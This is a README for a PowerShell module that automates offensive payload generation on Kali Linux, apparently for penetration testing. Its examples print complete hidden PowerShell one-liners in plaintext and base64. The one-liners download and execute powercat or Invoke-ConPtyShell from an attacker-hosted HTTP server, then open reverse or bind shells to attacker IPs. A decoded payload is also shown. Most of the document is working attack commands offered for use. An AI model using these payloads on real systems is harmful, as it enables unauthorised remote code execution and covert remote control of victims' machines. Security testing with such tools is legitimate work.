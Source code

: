 # PSX

## Description
This module helps specifically with PowerShell payloads

You no longer need to manually base64-encode your payloads, host, or tweak them\
With a few quick functions, you can now automate the whole shebang with only a few arguments

## Features
PSX currently provides the following features:
- ConPtyShell automation (including terminal [auto]size specification)
- PowerCat automation
- Base64-(encode|decode) payloads
- Automatic payload-to-clipboard
- Python Simple HTTP server
- [Optional] Automation for netcat listeners ***(X11 only)***

## Available Functions
- `cvsh` -> `Convert-Shell`
- `ib64` -> `Invoke-B64`
- `Invoke-Server`
- `Get-InterfaceAddress`
- `Sync-PSX`
- `Get-PSXAutomation` ***(X11 only)***
- `Set-PSXAutomation` ***(X11 only)***

## Heads up
- This module **WILL NOT**, and **MUST NOT** be, run as `root`; this is by design, and I will\
not be changing this at any point
- Only time elevated privileges are needed is on the first invocation of the module commands\
If you decide to enable automating netcat listeners, you will be prompted for your `sudo` password\
to issue the command `sudo apt-get install xdotool`
- The above command runs without verbosity, but you can see what gets installed by reading through\
`helpers/Init.ps1`
- Automation feature requires:
    - `xdotool` (Initial invocation of the module commands takes care of that)
    - X11 environment (Sorry, Waylanders...For now, maybe? :eyes:)
    - `Convert-Shell ... -Serve`
- When using `conpty` as the selected payload type, caution must be exercised where\
terminal sizing is concerened. That is to say, the _current_ terminal size is chosen\
by default unless otherwise configured. For example, if you convert a `conpty` shell\
in a vertically-split terminal (49 rows, 95 columns), the netcat listener must be run\
in a terminal window of the same size.If you are on an X11 environment, and you have\
automation enabled, it is preferred to run `pwsh` in a non-split tab
- The module is designed to be implicitly imported from the `$USER`'s `$PSModulePath`, so\
please make sure you clone it as per the instructions. Otherwise, you will have to tweak\
the module manifest, and any required path modifications yourself

## Cloning
```sh
kali@kali:~$ git clone https://github.com/X0RW3LL/PSX.git /home/$USER/.local/share/powershell/Modules/PSX
```
## Getting help
```ps
PS kali@kali /home/kali> Get-Help Convert-Shell -Full
```
## Examples

### PowerCat (reverse powershell)
```ps
PS kali@kali /home/kali> cvsh -i wlan1 -t powercat -lp 443 -s

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA


[!] Starting HTTP server on wlan1 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 192.168.0.111 port 80 (http://192.168.0.111:80/) ...
```
### PowerCat (bind cmd)
```ps
PS kali@kali /home/kali> cvsh -t powercat -lp 4444 -s -i docker0 -e cmd -b

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:80/powercat.ps1');powercat -l -p 4444 -e cmd"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA3ADIALgAxADcALgAwAC4AMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAA=


[!] Starting HTTP server on docker0 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 172.17.0.1 port 80 (http://172.17.0.1:80/) ...
```
### ConPty (split terminal autosize)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 4455 -s -sp 8080 -i wg0

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:8080/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 4455 -Rows 49 -Cols 95"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwADgAMAAvAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsAC4AcABzADEAJwApADsASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwAIAAxADAALgA4AC4AMAAuADIAIAA0ADQANQA1ACAALQBSAG8AdwBzACAANAA5ACAALQBDAG8AbABzACAAOQA1AA==


[!] Starting HTTP server on wg0 port 8080
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 8080 (http://10.8.0.2:8080/) ...
```
### ConPty (fullscreen terminal explicit sizing)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 445 -s -i wg0 -rows 51 -cols 191          

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:80/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 445 -Rows 51 -Cols 191"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwAC8ASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwALgBwAHMAMQAnACkAOwBJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgADEAMAAuADgALgAwAC4AMgAgADQANAA1ACAALQBSAG8AdwBzACAANQAxACAALQBDAG8AbABzACAAMQA5ADEA


[!] Starting HTTP server on wg0 port 80
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 80 (http://10.8.0.2:80/) ...
```
### Base64-decode
```ps
PS kali@kali /home/kali> ib64 -d SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA

[+] Decoded payload:
--------------------
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell

```
